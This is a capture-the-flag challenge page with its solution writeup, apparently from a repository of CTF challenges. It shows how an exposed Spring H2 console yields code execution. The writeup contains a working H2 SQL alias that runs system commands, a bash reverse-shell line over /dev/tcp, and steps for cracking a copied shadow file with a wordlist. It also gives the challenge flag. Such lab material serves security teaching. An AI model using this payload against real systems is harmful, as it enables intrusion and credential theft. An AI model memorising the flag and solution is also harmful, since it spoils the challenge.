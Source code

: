 # Name
Boot It and Root It

# Description
It's the middle of the Spring, and the website is not responding. Nothing works. See if you
can find a way to run some code.

Website Link

# Difficulty
7/10

# Flag
PCTF{Rc3_P0w3R_pR0V3n}

# Hints
None

# Author Name
(Yojan) drMoscovium

# Writeup

`/h2-console`
To open the H2 database console.

```SQL
CREATE ALIAS EXECMD AS $$ String execmd(String cmd) throws java.io.IOException { Runtime.getRuntime().exec(cmd);return null; }$$;

CALL EXECMD('bash -c $@|bash 0 echo bash -i >& /dev/tcp/127.0.0.1/5555 0>&1');
```
Run this command to get a reverse shell
![](../../writeup-images/Boot_Root_Reverse_Shell.png)

There is a shadow file `/home/.someuser/.../shadow`

Copy and paste and then bruteforce it using rockyou.txt

Use the password to login as root

The flag is in the home root folder.

![](../../writeup-images/Boot_Root_Flag.png)
